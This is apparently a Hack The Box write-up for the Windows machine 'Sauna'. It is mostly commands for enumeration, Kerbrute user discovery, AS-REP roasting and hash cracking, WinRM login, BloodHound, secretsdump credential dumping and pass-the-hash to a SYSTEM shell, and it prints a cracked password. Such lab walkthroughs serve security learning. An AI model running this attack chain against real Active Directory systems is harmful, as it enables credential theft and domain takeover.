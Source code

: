 # HTB - Sauna

**IP Address:** `10.10.10.175`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** #SMB, #Kerberos, #LDAP, #AS-REPRoasting, #BloodHound, #WinRM, #PrivilegeEscalation

---

## 1. Initial Enumeration

### 1.1 Connectivity Check

```bash
ping -c 1 10.10.10.175
```

✅ Host is up

---

### 1.2 Port Scanning

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.175 -oG allPorts
```

**Open Ports:**

```
53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985, 9389, 49668, 49673, 49674, 49677, 49689, 49696
```

Targeted scan with scripts:

```bash
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49696 10.10.10.175 -oN targeted
```

📌 Identified domain: `EGOTISTICAL-BANK.LOCAL`

---

## 2. Service Enumeration

### 2.1 SMB

```bash
crackmapexec smb 10.10.10.175
```

Result:

```
Windows 10 / Server 2019 Build 17763 x64
```

Attempted share listing (unsuccessful):

```bash
crackmapexec smb 10.10.10.175 --shares
smbmap -H 10.10.10.175
smbclient -L 10.10.10.175 -N
```

---

### 2.2 LDAP

```bash
ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts
ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' | grep "dn: CN="
```

Discovered user: `Hugo Smith`

---

## 3. Username Discovery

Generated a custom wordlist (`users.txt`):

```
hugosmith
hugo.smith
hsmith
h.smith
hugo.s
```

User enumeration using Kerbrute:

```bash
/opt/kerbrute/kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt
```

✅ Valid user found: `hsmith`

---

## 4. AS-REP Roasting Attack

```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```

✅ Hash retrieved for `fsmith`

Crack the hash using hashcat:

```bash
hashcat -m 18200 -a 0 hash_fsmith /usr/share/wordlists/rockyou.txt
```

🔑 Recovered password: `Thestrokes23`

---

## 5. Initial Access

Login via WinRM:

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

✅ Successful login  
🏁 **User flag retrieved**

---

## 6. Privilege Escalation

### 6.1 Enumeration with winPEAS

1. Created folder: `C:\Windows\Temp\Recon`
    
2. Uploaded `winPEAS.exe`
    
3. Executed and reviewed output
    

Discovered credentials for user: `svc_loanmgr`

---

### 6.2 Access as svc_loanmgr

Validation:

```bash
crackmapexec smb 10.10.10.175 -u svc_loanmgr -p '<password>'
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p '<password>'
```

✅ Successful login

---

### 6.3 BloodHound Enumeration

1. Uploaded and ran `SharpHound.ps1`
    
2. Collected and analyzed data with BloodHound
    

Discovered path to dump Administrator hash

---

### 6.4 Dumping Administrator Hash and Remote Execution

```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```

Used recovered hash:

```bash
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 cmd.exe -hashes :<HASH>
```

✅ SYSTEM shell obtained  
🏁 **Root flag retrieved**

---

# ✅ MACHINE COMPLETE